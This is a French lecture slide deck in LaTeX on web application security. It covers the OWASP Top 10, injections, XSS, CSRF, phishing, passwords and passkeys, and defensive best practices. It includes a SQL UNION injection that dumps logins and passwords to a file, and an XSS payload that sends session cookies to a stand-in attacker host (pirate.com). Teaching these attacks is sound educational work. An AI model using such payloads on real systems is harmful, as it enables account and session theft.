\hypertarget{risque}{%
\section{Risque}\label{risque}}

\begin{itemize}
\tightlist
\item
  Faille ou bug permettant d'altérer le fonctionnement
\item
  Un attaquant pourra :

  \begin{itemize}
  \tightlist
  \item
    Modifier le fonctionnement
  \item
    Accéder ou modifier les données
  \end{itemize}
\item
  Présence possible à tous les niveaux d'un système

  \begin{itemize}
  \tightlist
  \item
    Application
  \item
    Serveur et Client
  \item
    OS
  \item
    SGBD, \ldots{}
  \end{itemize}
\item
  Responsabilité des développeurs :

  \begin{itemize}
  \tightlist
  \item
    OS, serveurs, langages : patches rapidement disponibles
  \item
    nos applications : \textbf{c'est nous qui en sommes responsables}
  \end{itemize}
\end{itemize}

\hypertarget{owasp26}{%
\section{\texorpdfstring{\href{https://owasp.org/}{OWASP}}{OWASP}}\label{owasp26}}

\begin{itemize}
\tightlist
\item
  Open Web Application Security Project
\item
  Fondation pour améliorer la sécurité des webapps
\item
  Fondée en 2004, internationale, sans but lucratif
\item
  Référence principale dans le domaine
\item
  Propose :

  \begin{itemize}
  \tightlist
  \item
    Top 10 (web et
    \href{https://owasp.org/www-project-mobile-top-10/}{mobile}) :
    \href{https://owasp.org/Top10/\#methodology}{Méthode},
    \href{https://www.first.org/cvss/calculator/3.0}{CVSS},
    \href{https://cwe.mitre.org/top25/archive/2022/2022_cwe_top25.html}{CWE}
  \item
    Grand communauté d'experts
  \item
    Formation, documentation et ressources
  \item
    Outils d'audit, de tests et de formation
  \end{itemize}
\end{itemize}

\hypertarget{top-109-owasp-2021-fr27---historique30}{%
\section{\texorpdfstring{\href{https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project}{Top
10} OWASP 2021 (\href{https://owasp.org/Top10/fr/}{fr} -
\href{https://www.hahwul.com/cullinan/history-of-owasp-top-10/}{historique})}{Top 10 OWASP 2021 (fr - historique)}}\label{top-109-owasp-2021-fr27---historique30}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Contrôle d'accès défaillants
\item
  Défaillances cryptographiques
\item
  Injections
\item
  Conception non sécurisée
\item
  Mauvaise configuration de sécurité
\item
  Composants vulnérables et obsolètes
\item
  Identification \& Authentification de mauvaise qualité
\item
  Manque d'intégrité des données et du logiciel
\item
  Carences des systèmes de contrôle et de journalisation
\item
  Falsification de requêtes côté serveur
\end{enumerate}

\begin{itemize}
\tightlist
\item
  Non exhaustif : ex. : risques liés à
  \href{https://cheatsheetseries.owasp.org/cheatsheets/NPM_Security_Cheat_Sheet.html}{Node
  JS}
\end{itemize}

\hypertarget{injection-de-code}{%
\section{Injection de code}\label{injection-de-code}}

\begin{itemize}
\tightlist
\item
  Données mal validées : possibilité d'exécuter du code
\item
  Passées par requêtes :

  \begin{itemize}
  \tightlist
  \item
    formulaires
  \item
    URL
  \item
    \ldots{}
  \end{itemize}
\item
  Type de code injectable : TOUS !

  \begin{itemize}
  \tightlist
  \item
    HTML
  \item
    SQL
  \item
    Javascript
  \item
    \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{injections-sql}{%
\section{Injections SQL}\label{injections-sql}}

\begin{itemize}
\tightlist
\item
  Modifier les requêtes envoyées au SGBD
\item
  Obtention d'un résultat non prévu par le développeur
\item
  Deviner la structure du code pour l'exploiter
\item
  SQL est puissant : UNION, INTO DUMPFILE, \ldots{}
\end{itemize}

\href{https://fr.wikipedia.org/wiki/Injection_SQL}{Exemples}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{SELECT}\NormalTok{ titre, num }\KeywordTok{FROM}\NormalTok{ livres }\KeywordTok{WHERE}\NormalTok{ num}\OperatorTok{=}\DecValTok{2} \KeywordTok{UNION}
\KeywordTok{SELECT}\NormalTok{ login, }\KeywordTok{password} \KeywordTok{FROM} \FunctionTok{user} \KeywordTok{INTO}\NormalTok{ DUMPFILE }\StringTok{\textquotesingle{}www/exploit.txt\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{eviter-les-injections-sql}{%
\section{Eviter les injections SQL}\label{eviter-les-injections-sql}}

\begin{itemize}
\tightlist
\item
  N'accepter que des caractères valides
\item
  A défaut, neutraliser les caractères dangereux
\item
  Utiliser les entités HTML
\item
  Vérifications strictes dans le code
\item
  Eviter les noms prévisibles pour une appli critique
\end{itemize}

\hypertarget{cross-site-scripting-xss}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss}}

\begin{itemize}
\tightlist
\item
  Injection de code (html et script)
\item
  Exécution par le navigateur du client
  
\includegraphics{src/img/xss.png}
\end{itemize}

\hypertarget{cross-site-scripting-xss-1}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss-1}}

\begin{itemize}
\tightlist
\item
  Enjeux : tout ce qui est possible en JS

  \begin{itemize}
  \tightlist
  \item
    Redirection
  \item
    Lecture de cookies (session, \ldots)
  \item
    Envoi d'info à un autre serveur
  \item
    Modification du contenu de la page
  \item
    \ldots{}
  \end{itemize}
\item
  Souvent utilisé pour transmettre le cookie de session
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}img}\OtherTok{ src=}\StringTok{"http://www.urlinexistante.com/im.jpg"}
\OtherTok{     onerror=}\StringTok{"window.location=\textquotesingle{}http://www.pirate.com/recupcookie.jsp?}
\StringTok{     cookie=\textquotesingle{}+document.cookie\textquotesingle{};"}\KeywordTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{types-de-xss}{%
\section{3 types de XSS}\label{types-de-xss}}

\begin{itemize}
\tightlist
\item
  Reflected XSS

  \begin{itemize}
  \tightlist
  \item
    Affichage d'une partie de la requête (recherche, erreur, \ldots)
  \end{itemize}
\item
  Stored XSS

  \begin{itemize}
  \tightlist
  \item
    Stockage dans la BDD et affichage (= exécution) par plusieurs
    clients
  \end{itemize}
\item
  DOM based XSS

  \begin{itemize}
  \tightlist
  \item
    Exécutée lors de la modification du DOM
    (\href{https://www.owasp.org/index.php/DOM_Based_XSS}{Exemple})
  \end{itemize}
\end{itemize}

\hypertarget{cross-site-request-forgery-csrf---sea-surf}{%
\section{Cross Site Request Forgery (CSRF - Sea
Surf)}\label{cross-site-request-forgery-csrf---sea-surf}}

\begin{itemize}
\tightlist
\item
  \textbf{Principe} :

  \begin{itemize}
  \tightlist
  \item
    Faire réaliser à quelqu'un une action à son insu, avec ses propres
    infos d'authentification (credentials)
  \end{itemize}
\item
  Envoi par mail ou post forum de liens ou images
\item
  Les URL correspondent à actions (vote, suppression, \ldots)
\end{itemize}

\href{https://www.owasp.org/index.php/CSRF}{Exemple} (SOP, CORS)

\hypertarget{phishing}{%
\section{Phishing}\label{phishing}}

\begin{itemize}
\tightlist
\item
  Site sosie d'un site officiel :

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    L'utilisateur saisit ses données\ldots{}
  \item
    \ldots{} l'attaquant les récupère\ldots{}
  \item
    \ldots{} et les utilise sur le site officiel
  \end{enumerate}
\item
  Difficile à contrer pour le développeur
\item
  L'utilisateur doit être prudent
\item
  Bien lire les URLS et le GUI du navigateur pas toujours suffisant
\item
  Ne pas utiliser de lien dont on n'est pas sur de la source
  (\href{https://www.xudongz.com/blog/2017/idn-phishing/}{Homograph
  Attack},
  \href{https://github.com/codebox/homoglyph/blob/master/raw_data/char_codes.txt}{Homoglyphes},
  \href{https://onlineunicodetools.com/spoof-unicode-text}{Unicode
  Spoofing})
\end{itemize}

\hypertarget{risques-non-liuxe9s-uxe0-lapplication}{%
\section{Risques non liés à
l'application}\label{risques-non-liuxe9s-uxe0-lapplication}}

\begin{itemize}
\tightlist
\item
  IoT : souvent mal sécurisé (\href{https://www.shodan.io/}{shodan.io})
\item
  DoS
\item
  Spoofing (IP, DNS, ARP)
\item
  Buffer Overflows (surtout en C)
\item
  Trojans, backdoors
\item
  Usurpation de mots de passe : dictionnaire, force brute
\item
  \textbf{SOCIAL ENGINEERING !!!}
\end{itemize}

\hypertarget{authentification}{%
\section{Authentification}\label{authentification}}

\begin{itemize}
\tightlist
\item
  \textbf{Identification} : annoncer qui on est
\item
  \textbf{Authentification} : prouver qu'on est la personne qu'on
  prétend être :

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    Avec quelque chose que l'on \textbf{sait} (PIN, mot de passe)
  \item
    Avec quelque chose que l'on \textbf{possède} (téléphone, token,
    \ldots)
  \item
    Avec quelque chose que l'on \textbf{est} (biométrie)
  \end{enumerate}
\item
  La sécurité augmente si on combine ces facteurs
\item
  Important de prendre en compte l'utilisabilité
\end{itemize}

\hypertarget{top-500-passwords-cloud}{%
\section{Top 500 passwords cloud}\label{top-500-passwords-cloud}}

\begin{figure}
\centering

\includegraphics{src/img/passwordscloud.png}
\caption{top 500 passwords cloud}
\end{figure}

\hypertarget{mots-de-passe}{%
\section{Mots de passe}\label{mots-de-passe}}

\begin{itemize}
\tightlist
\item
  30\% of users have a password from the top 10'000
  (\href{https://xato.net/10-000-top-passwords-6d6380716fe0\#.q5gcg2vme}{source})
\item
  Our passwords habits
  \href{http://visual.ly/our-password-habits-revealed}{revealed}
\item
  xkcd's \href{http://xkcd.com/936/}{password strength}
\item
  2017 :
  \href{https://nakedsecurity.sophos.com/2016/08/18/nists-new-password-rules-what-you-need-to-know/}{NIST
  800-63-3} suivi par la
  \href{https://www.ncsc.gov.uk/guidance/password-guidance-simplifying-your-approach}{NCSC}

  \begin{itemize}
  \tightlist
  \item
    Mots de passe longs plutôt qu'avec des caractères spéciaux
  \item
    Ne forcer le changement qu'en cas de nécessité
  \item
    Autoriser et accompagner l'utilisation de password managers
  \item
    Utiliser la 2FA
  \end{itemize}
\item
  Plusieurs tentatives pour s'en affranchir :

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.microsoft.com/security/blog/2021/09/15/the-passwordless-future-is-here-for-your-microsoft-account/}{Microsoft},
    \href{https://hacks.mozilla.org/2014/10/passwordless-authentication-secure-simple-and-fast-to-deploy/}{passwordless}
    authentication
  \item
    2022 : Passkeys : JS API
    \href{https://en.wikipedia.org/wiki/WebAuthn}{WebAuthN} +
    CTAP/\href{https://u2f-key.tech/fr/}{U2F}
  \end{itemize}
\end{itemize}

\hypertarget{passkeys35}{%
\section{\texorpdfstring{\href{https://medium.com/webauthnworks/introduction-to-webauthn-api-5fd1fb46c285}{Passkeys}}{Passkeys}}\label{passkeys35}}

\begin{itemize}
\tightlist
\item
  Paire de clés asymétriques au lieu d'un mot de passe
\item
  Initiative de l'alliance
  \href{https://fidoalliance.org/members/}{FIDO}
\item
  Fin 2022 : intégrée à Android, iOS, win11 et MacOS
\item
  Résolution de challenges : pas d'info sensible sur le réseau
\item
  3 acteurs :

  \begin{itemize}
  \tightlist
  \item
    User Agent : Humain / Navigateur
  \item
    Relying Party : Serveur (service auquel on veut s'authentifier)
  \item
    Authenticator : Clef USB / Smartphone / OS + biométrie
  \end{itemize}
\item
  Communication :

  \begin{itemize}
  \tightlist
  \item
    User Agent \textless=\textgreater{} Authenticator : CTAP / U2F
  \item
    User Agent \textless=\textgreater{} Relying Party : API JS
    \href{https://webauthn.guide/}{WebAuthn}
  \end{itemize}
\end{itemize}

\hypertarget{passkeys-acteurs31}{%
\section{\texorpdfstring{Passkeys :
\href{https://auth0.com/blog/introduction-to-web-authentication/}{Acteurs}}{Passkeys : Acteurs}}\label{passkeys-acteurs31}}

\begin{figure}
\centering

\includegraphics{src/img/1-Web-Authentication-Entities.png}
\caption{Architecture}
\end{figure}

\hypertarget{passkeys-enregistrement32}{%
\section{\texorpdfstring{Passkeys :
\href{https://www.freecodecamp.org/news/intro-to-webauthn/}{Enregistrement}}{Passkeys : Enregistrement}}\label{passkeys-enregistrement32}}

\begin{figure}
\centering

\includegraphics{src/img/Registration.png}
\caption{Reg}
\end{figure}

\hypertarget{passkeys-authentification32}{%
\section{\texorpdfstring{Passkeys :
\href{https://www.freecodecamp.org/news/intro-to-webauthn/}{Authentification}}{Passkeys : Authentification}}\label{passkeys-authentification32}}

\begin{figure}
\centering

\includegraphics{src/img/Login.png}
\caption{Auth}
\end{figure}

\hypertarget{collecte-dinformation}{%
\section{Collecte d'information}\label{collecte-dinformation}}

\begin{itemize}
\tightlist
\item
  Toute information est bonne pour l'attaquant

  \begin{itemize}
  \tightlist
  \item
    Messages d'erreur
  \item
    Configuration OS serveur
  \item
    Configuration serveurs (http, sql, php, \ldots)
  \item
    Identifiants et commentaires dans sources -au cas où-
  \item
    SOCIAL ENGINEERING !
  \end{itemize}
\item
  Le développeur doit laisser filter un minimum d'info !
\item
  Utilisée aussi par les ``white hats'' (ethical hackers) :
  \href{https://hackertarget.com/cowrie-honeypot-analysis-24hrs/}{Honeypots}
\end{itemize}

\hypertarget{bonnes-pratiques}{%
\section{Bonnes pratiques}\label{bonnes-pratiques}}

\begin{itemize}
\tightlist
\item
  Configuration stricte du serveur
\item
  Valider toutes les entrées (formulaires, requêtes HTTP)
\item
  Filtrage/encodage de toutes les entrées en entités HTML
\item
  Ne jamais afficher directement une saisie de formulaire

  \begin{itemize}
  \tightlist
  \item
    Ni aucune donnée transmise par HTTP avant de l'avoir filtrée !
  \end{itemize}
\item
  Tester ses formulaires avec des expressions à risques
\item
  Contrôler le maximum de paramètres (même si redondant) :

  \begin{itemize}
  \tightlist
  \item
    Session, IP, user agent, proxy, \ldots{}
  \end{itemize}
\item
  Utiliser un framework

  \begin{itemize}
  \tightlist
  \item
    ces bonnes pratiques sont déjà implémentées
  \end{itemize}
\item
  Suites et logiciels de test
\end{itemize}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Référence

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Main_Page}{OWASP},
    \href{https://www.youtube.com/watch?v=pHI2zitLph8}{webinar fr 2016}
  \item
    WebAuthn : \href{https://www.w3.org/TR/webauthn/}{w3c},
    \href{https://developer.mozilla.org/en-US/docs/Web/API/Web_Authentication_API}{MDN}
  \end{itemize}
\item
  Exemples, explications

  \begin{itemize}
  \tightlist
  \item
    \href{http://www.journaldunet.com/developpeur/tutoriel/php/031030php_nexen-xss1.shtml}{Présentation
    XSS et CSRF} en français
  \item
    \href{http://www.apprendre-php.com/tutoriels/tutoriel-39-introduction-aux-cross-site-request-forgeries-ou-sea-surf.html}{Protection
    CSRF} en français
  \end{itemize}
\item
  Utilitaires, tutos, exercices

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Webgoat}{Web Goat}
  \item
    \href{http://www.insecurelabs.org/task}{Insecure Labs}
  \item
    \href{http://google-gruyere.appspot.com/}{Google-Gruyere}
  \end{itemize}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}
